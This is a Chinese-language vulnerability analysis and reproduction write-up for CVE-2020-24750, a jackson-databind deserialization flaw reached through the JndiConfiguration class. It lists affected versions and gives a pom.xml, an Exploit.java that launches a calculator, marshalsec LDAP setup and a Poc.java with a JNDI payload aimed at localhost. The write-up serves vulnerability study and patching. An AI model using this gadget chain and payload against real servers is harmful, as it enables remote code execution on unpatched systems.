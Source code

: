 （CVE-2020-24750）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

com.pastdev.httpcomponents.configuration.JndiConfiguration类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 利用条件

-   开启enableDefaultTyping()
-   使用了com.pastdev.httpcomponents.configuration.JndiConfiguration第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4

jackson-databind before 2.8.11.6

jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

> 相关信息

`https://github.com/FasterXML/jackson-databind/issues/2798`

![4.png](./.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

> 相关类确定：

`https://github.com/kishorkunal-raj/jackson-databind/blob/5f4148e6c083529a2d12c6dc986b07a03850f503/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java#L198`

![5.png](./.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId27.png)

之后在源代码中定位到`com.pastdev.httpcomponents.configuration.JndiConfiguration`类，发现一处可疑的JNDI注入，我们只需要构造参数即可实现，非常简单：

![6.jpeg](./.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId28.jpg)

整个利用链如下所示：

    mapper.readValue
        ->JndiConfiguration
            ->lookup

### 漏洞复现

#### 环境搭建

> pom.xml

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/com.pastdev.httpcomponents/configuration -->
        <dependency>
          <groupId>com.pastdev.httpcomponents</groupId>
          <artifactId>configuration</artifactId>
          <version>0.1.3</version>
        </dependency>

          <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

#### 漏洞复现

这里使用LDAP的利用方式进行漏洞的利用演示，RMI的方式也是类似的，且RMI比LDAP要对JDK版本有很大的局限性\~LDAP利用方式：jdk版本：JDK
11.0.1、8u191、7u201、6u211之前，笔者这里采用JDK 1.8.0\_181

##### 编译Exploit.java

> Exploit.java

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

编译Exploit.java文件：

![1.png](./.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId33.png)

之后在本地搭建HTTP服务并将Exploit.class放置在web目录下，之后通过marshalsec来启动一个LDAP服务使用marshalsec来启动一个LDAP服务：

![2.png](./.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId34.png)

##### 执行漏洞POC

> Poc.java

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"com.pastdev.httpcomponents.configuration.JndiConfiguration\",\"ldap://127.0.0.1:1099/Exploit\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

![3.jpeg](./.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId36.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8210\#toc-2
